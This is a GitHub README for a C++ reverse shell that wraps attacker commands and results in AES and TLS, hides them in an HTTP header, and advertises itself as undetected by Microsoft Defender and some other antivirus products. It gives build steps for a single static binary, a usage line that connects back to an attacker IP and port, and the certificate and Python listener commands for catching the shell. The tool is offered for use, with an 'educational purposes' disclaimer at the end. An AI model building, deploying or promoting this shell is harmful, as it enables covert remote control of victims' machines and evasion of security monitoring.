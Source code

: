 # Encrypted SSL/TLS C++ Reverse Shell (HTTPS)
<b><span style="color:green;">✅ Status: Undetected (Tested on couple AV solutions including defenders)</span></b>

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetected** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.
- Using AES Encryption / Decryption and embedding the results and commands within HTTP headers to bypass deep packet inspection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Purpose of the POC

This Proof of Concept (POC) demonstrates how to build a reverse shell that utilizes **SSL/TLS encryption** and **AES encryption/decryption** to achieve secure communication between the attacker and the target. The main objectives and functionality of this POC are as follows:

- **Avoid Detection**: By using SSL/TLS (the same protocol used for legitimate HTTPS traffic), the reverse shell traffic blends in with regular encrypted web traffic, making it much harder to detect by Network Detection and Response (NDR) systems or firewalls.
- **Encrypted Communication**: The communication between the client (target) and the attacker is encrypted using **AES** (Advanced Encryption Standard). This ensures that even if the traffic is intercepted, it cannot be easily read or tampered with without the correct decryption key.
- **Command Execution in Encrypted Form**: Commands are **encrypted** on the server side and sent to the client over the SSL connection. The client decrypts these commands, executes them, and then sends back the encrypted output to the attacker.
- **Embedding Commands in HTTP Headers**: The encrypted command is embedded within a custom HTTP header (`X-Command`), allowing it to pass through web proxies, firewalls, or any other inspection system that may be scanning traffic for unusual activity. This technique makes the reverse shell more difficult to detect by conventional network traffic analysis tools.
- **Simulating Legitimate HTTPS Traffic**: By using HTTPS (SSL/TLS) and embedding encrypted payloads within HTTP headers, the reverse shell traffic appears as regular secure web traffic, which helps evade deep packet inspection (DPI) systems that are typically used to identify malicious traffic patterns.
- **Encrypted Results Sent Back**: The results of the executed commands are also encrypted using **AES** and sent back to the attacker through the SSL connection. This ensures that the response is equally protected and remains secure during transmission, preventing interception , tampering or detection by unauthorized parties.

The goal of this POC is to illustrate a method of bypassing common network security mechanisms by employing common, but underused, techniques to maintain the confidentiality and integrity of the communication channel. It is important to note that while the reverse shell is **undetected** by some AV solutions, it is **not guaranteed** to bypass all defenses.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.  
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.

![Local Image](./images/MT.png "MT FLAG")

2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.

![Local Image](./images/Include.png "Include Libraries")

3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories

![Local Image](./images/Linker1.png "Linker.png")

4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:  
C:\OpenSSLWin64\install\lib\libssl.lib  
C:\OpenSSLWin64\install\lib\libcrypto.lib

![Local Image](./images/Linker2.png "Linker.png")

---

## Usage

```
Usage: C:\Users\Vixx\Downloads\SSLReverseShell.exe <ATTACKER_IP> <ATTACKER_PORT>
Example: SSLReverseShell.exe 192.168.100.10 443
```

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Python Script will be the server to capture the shell and send the command back to client (encrypted with aes)
- Install required library

```
pip3 install pycryptodome
```
- Start the Server
```
┌──(kali㉿kali)-[~/Desktop/pen-300/sslrevshell]
└─$ python3 sslserverv1.3.py      
[*] Listening on 0.0.0.0:443
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
